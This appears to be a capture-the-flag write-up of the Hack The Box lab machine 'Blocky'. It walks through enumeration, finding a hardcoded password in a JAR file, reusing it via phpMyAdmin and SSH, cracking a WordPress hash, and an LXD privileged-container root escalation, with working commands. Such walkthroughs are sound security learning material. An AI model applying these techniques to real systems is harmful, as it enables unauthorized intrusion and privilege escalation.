

# Blocky: 10.10.10.37

## Hints

- Enumerate port 80 to find a non-plaintext file with a hidden password
- Use the creds on another port 80 endpoint to find a username
- With these creds, try to get remote access!
- Privesc requires no enumerations tools, just think how would you usually get root?

## nmap

Starting with the usual `nmap` scan. Interesting ports:

```none
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
```

The results look like an Ubuntu machine with FTP, SSH, and HTTP open. A quick look at Launchpad shows we have a Ubuntu Xenial machine, which is version 16.04. This OS is end of support in April 2021, so about half a year ago - at the time I am doing the box.

## Port 21: Recon

Started having a poke at FTP. Tried an anonymous log in, which does provide a prompt, but states a failed login and I keep getting a `530 Please login with USER and PASS` error when trying to run any commands.

The human brain is a funny thing. As soon as I saw "ProFTPD 1.3.5a", I knew I remembered it from somewhere. There is a similar service version with a vulnerability in [Metasploitable3](https://github.com/rapid7/metasploitable3), so I looked it up on `searchsploit`.

```none
└─$ searchsploit proftpd 1.3.5 
---------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                    |  Path
---------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                         | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                               | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                           | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                         | linux/remote/36742.txt
---------------------------------------------------------------------------------- ---------------------------------
```

There are four exploits in total. Out of the two Python options, ones seems much newer based on the file name. I mirrored this to my working directory:

```none
searchsploit -m linux/remote/49908.py
```

Seems I was correct, and this new exploit was authored in 2021. However, had no luck with either Python exploit. Halfway through I wondered if this was a small rabbit hole. The vulnerability is version 1.3.5, not 1.3.5a. I looked at the release notes of the homepage and GitHub, but they didn't go back to 1.3.5 to see if version 1.3.5 was released after 1.3.5a. It most likely is, and solved the vulnerability. Anyway, moving on.

## 80: Recon

Having a look at port 80, there is an game-like banner image...



Browsing around the site, there are some interesting findings. The site is built using WordPress - as seen in the `nmap` output, and the home page gives it away. The only post is from July 2nd, 2017 - around when the box was released. There is a login for normal users and admins, like the usual WordPress configuration:

- `http://10.10.10.37/wp-login.php`
- `http://10.10.10.37/wp-admin`

But we have no creds - not even a potential username. The only post has no author, but does mention a wiki. While manually enumerating, thought I might as well start a `gobuster` scan.

```none
gobuster dir -t 20 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u 10.10.10.37 -o gobuster_80_root_medium.log -x php
```

Found a `wiki` endpoint, which was just a basic under construction page. This makes sense as the WordPress post mentioned it was coming soon. Also, it mentions there is a database running.


Found the `plugins` endpoint from the `gobuster` output. Which had some strange JAR files.


And, also found the PHP My Admin login panel.


Out of the options, the JAR files seemed the most interesting. Maybe I didn't have enough coffee before this box, but at this point I had just realized that this was Minecraft-themed. The name, the home page, and these JAR files now make sense!

Started by extracting the JAR files:

```none
└─$ jar -xfv BlockyCore.jar
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
 inflated: META-INF/MANIFEST.MF
 inflated: com/myfirstplugin/BlockyCore.class
```

Looking at both of them, it seems like GriefProvention is a package (script?) for Minecraft that seems well known. But nothing comes up when searching for BlockyCore. Furthermore, it has similarities with the name of the box, so seems like it is unique to this machine and something of interest.

I tried to decompile the file using `jadx` but got a few errors when trying to find out the command syntax. I randomly used `cat` on the file to see if there was anything in there (just to check), and got some interesting info.

```none
        localhost
                       root
                               8YsqfCTnvxAUeduzjNSXe22
                                                       LineNumberTableLocalVariableTablethisLcom/myfirstplugin/BlockonServerStart
             onServerStop
                         onPlayerJoi"TODO get usernam$!Welcome to the BlockyCraft!!!!!!!
&
 '(
   sendMessage'(Ljava/lang/String;Ljava/lang/String;)usernamemessage
SourceFileBlockyCore.java!
```

Tried SSHing to the `root` account using the password in the file, but no luck... that would be too easy! Tried on the WordPress log-in for a normal user and admin, no luck. Then remembered about PHP My Admin. Success!


## Poking at PHP My Admin

This was a fun experience. I have never used PHP My Admin before and was surprised by some of the available stuff. Got some useful information about the system from the dashboard.

- Apache/2.4.18 (Ubuntu)
- mysqlnd 5.0.12-dev
- PHP extension: mysqli
- PHP version: 7.0.18-0ubuntu0.16.04.1
- PHP My Admin version: 4.5.4.1deb2ubuntu2

I must be stuck in my ways because I used the Console thing to run some MySQL queries instead of the fancy interface. Quickly found the user for the WordPress site in the `wp_users` table in the `wordpress` database.


If we can crack the password hash, we can get WordPress admin access and get a shell by uploading a plugin or modifying a theme. So, saved the hash.

```none
echo '$P$BiVoTj899ItS1EZnMhqeqVbrZI4Oq0/' > notch_hash
```

Then fired up John.

```none
john --wordlist=/usr/share/wordlists/rockyou.txt notch_hash
```

While John was running, noticed an email for the user with a unique domain name: `notch@blockcraftfake.com`. Might be useful, so noted it down for later.

John was taking a while to run, so I started looking elsewhere. I had a look through the PHP My Admin users, then started looking at some software versions. But thought this should be simpler than the things I was looking at. I now had a username and a password, which I had tried everywhere apart from SSH for the newly found `notch` user.

```none
└─$ ssh notch@10.10.10.37              
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Tue Jul 25 11:14:53 2017 from 10.10.14.230
notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
notch@Blocky:~$ wc -c user.txt 
32 user.txt
```

Success! SSH access as `notch` and the user flag.

## Privesc: `notch` to `root`

Instead of running linpeas, I started manually enumerating. This box has been easy so far, so thought I would try looking myself.

```none
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

This is an easy win as we can just switch to the `root` user.

```none
notch@Blocky:~$ sudo su root
root@Blocky:/home/notch# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:/home/notch# wc -c /root/root.txt
32 /root/root.txt
```

## Extra Privesc: `notch` to `root` using LXD

A while ago I did a box where the user was in the `lxd` group. This means you can get root, as per the [HackTricks article on lxd/lxc Group - Privilege escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation) article. Thought I might try this again for some practice.

On my machine, I built an Alpine image as per the instructions.

```none
git clone https://github.com/saghul/lxd-alpine-builder
cd lxd-alpine-builder
sed -i 's,yaml_path="latest-stable/releases/$apk_arch/latest-releases.yaml",yaml_path="v3.8/releases/$apk_arch/latest-releases.yaml",' build-alpine
sudo ./build-alpine -a i686
```

After this, you get an archive to upload to the target machine.

```none
lxc image import ./alpine*.tar.gz --alias myimage
```

For the next command, the article recommends you run `lxd init` before proceeding. However, I was getting as `error: This must be run as root`. I didn't want to use the `sudo` access if I didn't have to, so skipped this step, and continued with the instructions.

```none
lxc init myimage mycontainer -c security.privileged=true
lxc config device add mycontainer mydevice disk source=/ path=/mnt/root recursive=true
lxc start mycontainer
lxc exec mycontainer /bin/sh
```

This pops us into a container with `root` permissions and the target file system mounted in the `/mnt/root/` folder. So we can access anything on the file system.

```none
notch@Blocky:/dev/shm$ lxc exec mycontainer /bin/sh
~ # id
uid=0(root) gid=0(root)
~ # wc -c /mnt/root/root/root.txt 
32 /mnt/root/root/root.txt
~ # wc -c /mnt/root/home/notch/user.txt 
32 /mnt/root/home/notch/user.txt
```

Done!

## Lessons Learned

- Don't wait for passwords to crack, it may not be the way!

## Useful Resources

- [HackTheBox - Blocky by ippsec](https://www.youtube.com/watch?v=C2O-rilXA6I)
- [HTB: Blocky by 0xdf](https://0xdf.gitlab.io/2020/06/30/htb-blocky.html)
